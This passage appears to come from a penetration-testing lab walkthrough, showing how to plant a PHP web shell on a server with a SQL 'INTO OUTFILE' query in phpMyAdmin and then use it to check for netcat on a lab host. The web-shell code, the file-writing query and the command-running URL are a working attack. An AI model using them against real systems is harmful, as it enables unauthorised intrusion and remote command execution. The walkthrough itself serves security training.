



4.1 Creating a backdoor
1. Executing a SQL query, create a backdoor.
<?php system($_GET['c']);?> Execute commands that are being passed through ‘c’ HTTP request GET parameter.Using
SELECT ...INTO OUTFILE ... query you'll write the response in a file.SELECT "<?php system($_GET['c']);?>" INTO OUTFILE "/var/www/html/backdoor.php"
Write the query in the “phpMyAdmin” console and click “Ctrl+Enter”..


2. Navigate to http://192.168.12.30/backdoor.php?c=which%20nc in order to see whether or not “netcat” is installed.
